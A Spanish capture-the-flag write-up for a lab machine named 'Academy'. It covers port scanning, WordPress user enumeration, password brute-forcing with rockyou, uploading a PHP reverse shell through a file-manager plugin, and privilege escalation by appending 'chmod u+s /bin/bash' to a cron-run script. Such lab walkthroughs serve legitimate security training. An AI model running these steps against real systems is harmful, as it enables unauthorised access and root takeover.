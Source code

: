```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Academy

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.84
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.84
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.84
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de por defecto de **Apache**.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.84/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que nos encontramos un directorio de **WordPress**.&#x20;

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos encontramos ante un sitio basado en WordPress. Generalmente, las páginas de WordPress no se visualizan correctamente si no se ha añadido la dirección correspondiente en el archivo `/etc/hosts`. Para solucionar esto, llevaré a cabo el siguiente procedimiento:

Primero, accedo a la URL `http://192.168.1.84/wordpress`. Posteriormente, reviso el código fuente de la página presionando `Ctrl + U`. Al hacerlo, puedo observar que la web está configurada para apuntar a la dirección `academy.thl`.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuzzing de nuevo para **WordPress**.

```bash
gobuster dir -u http://192.168.1.84/wordpress/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al tener el directorio wp-admin sabemos que es un panel de login pero no tenemos las credenciales por lo que con **WPScan** enumeramos el usuario.

```bash
wpscan --url http://academy.thl/wordpress --enumerate u,vp
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Sabiendo el usuario tenemos que conseguir la contraseña.

```bash
wpscan --url http://academy.thl/wordpress --passwords /usr/share/wordlists/rockyou.txt --usernames dylan
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ingresamos las credenciales en el panel de **login**.

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Tenemos un plugin de WordPress **Bit File Manager** que nos permite subir archivos por lo que subiremos una Reverse Shell. [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos ponemos en escucha en nuestra máquina atacante.

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

Después de haber logrado la intrusión, es común que la consola que recibimos sea inestable. Si presionamos `Ctrl + C`, podemos perder la conexión. Para estabilizar la consola, realizaremos un tratamiento de la TTY con los siguientes pasos:

Ejecutamos el siguiente comando:

```bash
script /dev/null -c bash
```

A continuación, presionamos `Ctrl + Z` para suspender la sesión.

Configuramos la terminal con:

```bash
stty raw -echo; fg
```

Luego, restablecemos el terminal con:

```bash
reset xterm
```

> **Nota:** Es posible que durante este proceso no se muestre en pantalla lo que estamos tecleando.

Finalmente, exportamos las variables necesarias:

```bash
export TERM=xterm
export SHELL=bash
```

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. Requiere contraseña.

Nos descargamos la herramienta pspy64.

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
```

Realizamos lo siguiente para ejecutarlo.

```
chmod +x pspy64
./pspy64
```

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que hay un error en las extensiones por lo que creamos el archivo `backup.sh`. Es un archivo con permisos SUID .

```bash
echo 'chmod u+s /bin/bash' >> backup.sh
```

Le damos permisos de ejecución.

```bash
chmod +x backup.sh
```

Ejecutamos el comando.

```bash
bash -p
```

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
